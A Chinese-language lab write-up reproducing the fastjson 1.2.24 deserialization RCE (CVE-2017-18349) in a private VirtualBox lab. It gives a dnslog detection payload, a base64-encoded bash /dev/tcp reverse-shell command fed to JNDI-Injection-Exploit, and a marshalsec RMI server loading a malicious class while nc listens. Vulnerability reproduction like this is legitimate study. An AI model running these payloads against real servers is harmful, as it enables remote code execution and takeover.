



CVE-2017-18349漏洞复现
fastjson简介
fastjson 是阿里巴巴的开源JSON解析库，它可以解析 JSON 格式的字符串，支持将 JavaBean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean。
漏洞范围
受影响版本：
fastjson<=1.2.24
漏洞简介
fastJson在解析json的过程中，fastjson提供了autotype功能，支持使用autotype来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。
即，漏洞利用fastjson autotype在处理json对象的时候，未对@type字段进行完全的安全性验证，攻击者可以传入危险类，并调用危险类连接远程rmi主机，通过其中的恶意类执行代码。攻击者通过这种方式可以实现远程代码执行漏洞的利用，使得服务器的敏感信息泄露。
RMI
RMI是Java远程方法调用，是Java编程语言里，一种用于实现远程过程调用的应用程序编程接口，它使客户机运行的程序可以调用远程服务器的对象。
JNDI
JNDI（Java命名和目录接口）是一组在Java应用中访问命名和目录服务的API，命名服务将名称和对象联系起来，使得我们可以用名称访问对象。
可以访问以下名称/目录服务：
- RMI（Java远程方法调用）
- LDAP（轻量级目录访问协议）
- CORBA（公共对象请求代理体系结构）
- DNS（域名服务）
环境搭建
搭建过程详见基于VirtualBox的网络攻防基础环境搭建
本次复现采用的环境：
| 测试环境 | IP |
|---|---|
| kali(攻击机) | 172.16.111.108 |
| ubuntu(靶机) | 172.16.111.120 |
| debian(网关) | 172.16.111.1 |
具体的网络环境如下
kali-attacker：


ubuntu-victim：


网关：


漏洞复现
ubuntu-victim：
1 | # 运行此漏洞环境 |

访问http://172.16.111.120:8090看到JSON格式的输出

java.net.InetAddress这个类在实例化时会尝试作对example.com做域名解析，这时候可以通过dnslog的方式得知漏洞是否存在
抓到包以后，首先将包改为POST

其次获取dnslog地址，将下面的地址复制到相应的位置
1 | {"test":{"@type":"java.net.Inet4Address","val":"093nzk.dnslog.cn"}} |
得到DNS回显结果，表明存在fastjson漏洞

方法一：JDNI注入工具JNDI-Injection-Exploit
kali-attacker：
攻击机kali使用JDNI注入工具
构造反弹shell指令的payload为：
bash -i >& /dev/tcp/172.16.111.108/8888 0>&1，其中，172.16.111.108是kali的ip，端口是待会nc监听的端口
要想java执行payloads，需要bash64编码一下，利用平台编码后得到
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMTExLjEwOC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
编码后的命令通过-C参数输入JNDI工具，-A参数指定攻击者的ip地址
1 | java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMTExLjEwOC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}" -A 172.16.111.108 |
得到了rmi、ldap参数，并列出日志信息

同时在kali攻击机再新建一个窗口，用来监听8888端口

ubuntu-victim：
采用上述的ldap参数，在受害者主机上构造并通过burp访问
1 | { |

kali-attacker：
查看此时的JNDI日志记录

kali监听端口成功接收反弹shell
方法二：Java反序列化工具marshalsec
kali-attacker：
使用marshalsec项目，可以在本地快速开启RMI和LDAP服务
1 | # 下载marshalsec项目 |

新建一个java脚本TouchFile.java
1 | import java.lang.Runtime; |
通过 javac TouchFile.java 语句编译恶意类代码生成 TouchFile.class
将marshalsec的jar包移动到恶意类TouchFile.class同目录下
1 | sudo cp marshalsec-0.0.3-SNAPSHOT-all.jar ~/fastjson/marshalsec-0.0.3-SNAPSHOT-all.jar |
借助marshalsec项目，启动一个RMI服务器，监听1099端口，并指定加载远程恶意类TouchFile.class
1 | java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://172.16.111.108:1234/#TouchFile" |
使用python开启http服务
1 | python3 -m http.server 1234 |

访问http://172.16.111.108:1234/

同时再新建一个窗口，用来监听8888端口
1 | nc -lvnp 8888 |
ubuntu-victim：
访问 fastjson 页面，使用burp抓包，改为POST请求，使用如下exp反弹shell
1 | { |

结果发现请求成功，加载了恶意类

HTTP的监听结果

成功获得shell

参考
vulhub-fastjson 1.2.24 反序列化导致任意执行命令漏洞